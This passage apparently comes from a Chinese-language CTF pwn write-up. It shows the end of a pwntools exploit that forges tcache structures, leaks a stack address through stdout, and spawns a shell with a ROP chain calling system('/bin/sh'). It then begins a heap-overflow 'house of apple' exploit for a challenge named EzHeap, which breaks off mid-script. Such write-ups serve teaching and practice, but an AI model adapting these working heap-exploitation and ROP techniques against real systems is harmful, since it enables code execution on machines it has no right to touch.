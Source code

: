 ```python
# 伪造counts
payload  = p16(0)*2+p16(1)+p16(1)+p16(0)*5+p16(1)
payload  = payload.ljust(0x80,b'\x00')

# 伪造entrtes
payload += p64(0)*2+p64(stdout)+p64(stdout)+p64(0)*5+p64(heap_base+0x10)
payload  = payload.ljust(0xe0,b"\x00")
do_nothing(payload)

# leak stack_addr
payload2 = p64(0xFBAD1800)+p64(0)*3+p64(environ)+p64(environ+8)
do_nothing(payload2) 
leak = u64(p.recv(6).ljust(8,b'\x00'))
stack_addr = leak - 0x1a8 + 0x40
log.success("stack_addr : " + hex(stack_addr))

# 伪造counts
payload3  = p16(0)*4+p16(1)
payload3  = payload3.ljust(0x80,b'\x00')

# 伪造entrtes
payload3 += p64(0)*4+p64(stack_addr)
payload3  = payload3.ljust(0xa0,b"\x00")
do_nothing(payload3)

#gdb.attach(p)

pop_rdi = 0x2a3e5 + libc_base
system = libc.sym['system'] + libc_base
binsh = next(libc.search(b"/bin/sh\x00")) + libc_base
ret = 0x2a3e6 + libc_base
payload = cyclic(8) + p64(ret) +  p64(pop_rdi) + p64(binsh) + p64(system)
payload = payload.ljust(0x58,b'\x00')

do_nothing(payload)

p.interactive()
```

## EzHeap
### 分析
有堆溢出漏洞，正常打house of apple

### exp
```python
from pwn import *

p = process("./EzHeap")

#context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'
context.arch = 'amd64'

elf = ELF("./EzHeap")
libc = ELF("./libc.so.6")

def add(size,content):
    p.sendlineafter(b"choice >> ",b'1')
    p.sendlineafter(b"size:",str(size).encode())
    p.sendafter(b"content:",content)

def delete(idx):
```